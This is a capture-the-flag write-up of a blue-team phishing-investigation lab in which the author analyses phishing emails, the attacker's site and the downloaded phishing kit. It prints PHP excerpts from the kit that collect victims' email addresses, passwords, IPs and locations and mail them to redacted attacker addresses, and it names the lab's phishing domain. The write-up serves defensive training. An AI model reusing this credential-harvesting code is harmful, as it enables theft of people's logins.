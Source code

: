 *Apply learned skills to probe malicious emails and URLs, exposing a vast phishing campaign.*

**Difficulty:** Easy

#blue #phishing

---

An Ordinary Midsummer Day...  

As an IT department personnel of SwiftSpend Financial, one of your responsibilities is to support your fellow employees with their technical concerns. While everything seemed ordinary and mundane, this gradually changed when several employees from various departments started reporting an unusual email they had received. Unfortunately, some had already submitted their credentials and could no longer log in.

You now proceeded to investigate what is going on by:

1. Analysing the email samples provided by your colleagues.
2. Analysing the phishing URL(s) by browsing it using Firefox.
3. Retrieving the phishing kit used by the adversary.
4. Using CTI-related tooling to gather more information about the adversary.
5. Analysing the phishing kit to gather more information about the adversary.

---

Who is the individual who received an email attachment containing a PDF?

I opened each of the `.eml` files provided in `/phish-emails` with Thunderbird Mail. The emails with the subject *Group Marketing Online Direct Credit Advice* all contain an `.html` attachment, but the email titled *Quote for Services Rendered: processed on June 29, 2020, 10:01:32 AM*  contains a `.pdf` attachment. The receiver of this email can be seen in Thunderbird.

![](images/snapped-phishing-line-pdf-attachment.png)

What email address was used by the adversary to send the phishing emails?

Looking in Thunderbird all these emails were send from the same email address. Using `View Scource` and looking at the `From:` (data pont??) will provide the sender's email address.

```
From: "Group Marketing Online Accounts Payable"
 <********.*******@********************.***>
```

What is the redirection URL to the phishing page for the individual Zoe Duncan? (defanged format)

To answer this questions I saved the `.html` attachment in the email sent to Zoe Duncan and opened it in Vim. The redirection URL is shown in the file in the tags `<meta content="">` and `<a href="">`

![](images/snapped-phishing-line-html-attachment.png)

What is the URL to the .zip archive of the phishing kit? (defanged format)

By visiting the (base/root?) site that has been linked so far by the adversary, we are given an (index of the contents of the site). Http must be used instead of https to view this index, can can be used to emumerate the site and find the location of a `.zip` file.

`hxxp[://]kennaroads[.]buzz/data`

![](images/snapped-phishing-line-data-dir.png)

What is the SHA256 hash of the phishing kit archive?

From this site index, I downloaded the `.zip` file and ran the command:

`sha256sum *********.zip`

When was the phishing kit archive first submitted? (format: YYYY-MM-DD HH:MM:SS UTC)

By searching for the SHA256 hash on VirusTotal and viewing the Details tab, this date can be found under "First Submission".

When was the SSL certificate the phishing domain used to host the phishing kit archive first logged? (format: YYYY-MM-DD)

*See THM hint:* SSL Certificate is no longer available to reliably answer this question. ANS: "2020-06-25"

What was the email address of the user who submitted their password twice?

I looked around the site index some more and found a file `/data/Update365/log.txt`. This file seems to contain passwords collected from people who have fallen for the phishing campain. There is one email/password combination listed twice in this file.

![](images/snapped-phishing-line-log.png)

What was the email address used by the adversary to collect compromised credentials?

In the extracted phishing kit, the file `submit.php` shows the code that is run when a victim submits their credentials to the phishing site. This file shows how the credentials are formatted into an email to send back to the attacker, whose email address is shown in the `$send` variable.

```
$country = visitor_country();
$browser = $_SERVER['HTTP_USER_AGENT'];
$adddate = date("D M d, Y g:i a");
$from = $_SERVER['SERVER_NAME'];
$ip = getenv("REMOTE_ADDR");
$hostname = gethostbyaddr($ip);
$email = $_POST['email'];
$password = $_POST['password'];
$passchk = strlen($password);

$message .= "---------+ Office365 Login  |+-------\n";
$message .= "Email : ".$email."\n";
$message .= "Password : ".$password."\n";
$message .= "-----------------------------------\n";
$message .= "Client IP: ".$ip."\n";
$message .= "User Agent : ".$browser."\n";
$message .= "Country : ".$country."\n";
$message .= "Date: ".$adddate."\n";
$message .= "--- http://www.geoiptool.com/?IP=$ip ----\n";
$message .= "--+ Created BY Real Carder +---\n";

$send = "******@******.***";
```

The adversary used other email addresses in the obtained phishing kit. What is the email address that ends in "@gmail.com"?

I looked around some of the other files and found a different attacker email address in `script.st` which can be seen in the `$to` variable. This script seems to also collect the viction's IP, email and password.

```
    //get user's ip address 
    $geoplugin->locate();
    if (!empty($_SERVER['HTTP_CLIENT_IP'])) { 
    $ip = $_SERVER['HTTP_CLIENT_IP']; 
    } elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) { 
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR']; 
    } else { 
    $ip = $_SERVER['REMOTE_ADDR']; 
    }

    $message = "";
	$message .= "---|BLESSINGS|---\n";
    $message .= "Email Provider: Yahoo\n";
    $message .= "E: " . $_GET['email'] . "\n"; 
    $message .= "Ps: " . $_GET['password'] . "\n"; 
    $message .= "IP : " .$ip. "\n"; 
    $message .= "--------------------------\n";
    $message .=     "City: {$geoplugin->city}\n";
    $message .=     "Region: {$geoplugin->region}\n";
    $message .=     "Country Name: {$geoplugin->countryName}\n";
    $message .=     "Country Code: {$geoplugin->countryCode}\n";
    $message .= "--------------------------\n";

	$to ="***************@gmail.com"

	$subject = "Yahoo | $ip";
	$headers = "From: Blessing <blessing@heaven.com>";
```

What is the hidden flag?

Looking through the site index and all its subdirectories, I didn't see any expected filename like `flag.txt`. I tried putting this filename directly into the address bar on the phishing site. After trying all possible subdirectories with this method I eventually found something interesting.

`http://kennaroads.buzz/?/flag.txt`

```
The secret is:
********************************
```

This secret appeared to be base64 encoded, so I entered it into CyberChef using "From Base64". This got close to a traditional THM flag format, but the "Reverse" operation in CyberChef needs to be added to get the properly formatted flag.